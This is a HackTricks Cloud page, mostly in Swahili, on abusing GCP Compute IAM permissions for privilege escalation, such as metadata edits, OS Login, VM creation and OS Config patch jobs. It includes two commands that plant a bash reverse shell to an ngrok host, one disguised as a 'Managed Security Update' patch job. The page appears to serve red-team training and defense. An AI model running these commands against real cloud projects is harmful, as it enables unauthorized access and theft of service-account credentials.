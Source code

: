 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Kwa maelezo zaidi kuhusu Compute na VPC (mtandao) katika GCP angalia:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Kumbuka kwamba ili kufanya mashambulizi yote ya kupandisha hadhi yanayohitaji kubadilisha metadata ya mfano (kama kuongeza watumiaji wapya na funguo za SSH) **inahitajika kuwa na ruhusa za `actAs` juu ya SA iliyoambatanishwa na mfano**, hata kama SA tayari imeambatanishwa!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Kwa ruhusa hiyo unaweza **kubadilisha** taarifa za **metadata** za **mfano** na kubadilisha **funguo zilizoidhinishwa za mtumiaji**, au **kuunda** mtumiaji **mpya mwenye** ruhusa za sudo. Hivyo, utaweza kuingia kupitia SSH kwenye mfano wowote wa VM na kuiba Akaunti ya Huduma ya GCP ambayo Mfano unatumia.\
Vikwazo:

* Kumbuka kwamba Akaunti za Huduma za GCP zinazotumika katika mifano ya VM kwa kawaida zina **wigo mdogo sana**
* Itabidi uwe **na uwezo wa kuwasiliana na** seva ya SSH ili kuingia

Kwa maelezo zaidi kuhusu jinsi ya kutumia ruhusa hii angalia:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Unaweza pia kufanya shambulizi hili kwa kuongeza skripti mpya za kuanzisha na kuanzisha upya mfano:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Ruhusa hii inatoa **privilege sawa na ruhusa ya awali** lakini juu ya instances maalum badala ya mradi mzima. **Mizaha na mipaka sawa na ile ya sehemu ya awali inatumika**.

### `compute.instances.setIamPolicy`

Aina hii ya ruhusa itakuruhusu **kujipa jukumu na ruhusa za awali** na kupandisha privileges kwa kuzitumia.

### **`compute.instances.osLogin`**

Ikiwa **OSLogin imewezeshwa katika instance**, kwa ruhusa hii unaweza tu kukimbia **`gcloud compute ssh [INSTANCE]`** na kuungana na instance. Huta **kuwa na root privs** ndani ya instance.

{% hint style="success" %}
Ili kuingia kwa mafanikio na ruhusa hii ndani ya VM instance, unahitaji kuwa na ruhusa `iam.serviceAccounts.actAs` juu ya SA iliyoambatanishwa na VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Ikiwa **OSLogin imewezeshwa katika instance**, kwa ruhusa hii unaweza tu kukimbia **`gcloud compute ssh [INSTANCE]`** na kuungana na instance. Utakuwa na **root privs** ndani ya instance.

{% hint style="success" %}
Ili kuingia kwa mafanikio na ruhusa hii ndani ya VM instance, unahitaji kuwa na ruhusa `iam.serviceAccounts.actAs` juu ya SA iliyoambatanishwa na VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Inawezekana **kuunda mashine ya virtual yenye Akaunti ya Huduma iliyotolewa na kuiba tokeni** ya akaunti ya huduma kwa kufikia metadata ili kupandisha privileges kwake.

Script ya exploit kwa njia hii inaweza kupatikana [hapa](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Ikiwa una **`osconfig.patchDeployments.create`** au **`osconfig.patchJobs.exec`** ruhusa unaweza kuunda [**kazi ya patch au uanzishaji**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Hii itakuruhusu kuhamasisha kwa upande katika mazingira na kupata utekelezaji wa msimbo kwenye instances zote za compute ndani ya mradi.

Kumbuka kwamba kwa sasa **huhitaji ruhusa `actAs`** juu ya SA iliyoambatanishwa na instance.

Ikiwa unataka kutumia hii kwa mikono utahitaji kuunda ama [**kazi ya patch**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **au** [**uanzishaji**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**.**\
Kwa kazi ya patch endesha: 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Ili kupeleka usasishaji wa patch:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
The tool [patchy](https://github.com/rek7/patchy) inaweza kutumika zamani kwa ajili ya kutumia hii misconfiguration (lakini sasa haifanyi kazi).

**Mshambuliaji anaweza pia kutumia hii kwa kudumu.**

### `compute.machineImages.setIamPolicy`

**Jipatie ruhusa za ziada** kwa picha ya kompyuta.

### `compute.snapshots.setIamPolicy`

**Jipatie ruhusa za ziada** kwa picha ya diski.

### `compute.disks.setIamPolicy`

**Jipatie ruhusa za ziada** kwa diski.

### Bypass Access Scopes

Kufuata kiungo hiki utapata baadhi ya [**wazo za kujaribu kupita mipaka ya ufikiaji**](../).

### Local Privilege Escalation in GCP Compute instance

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## References

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
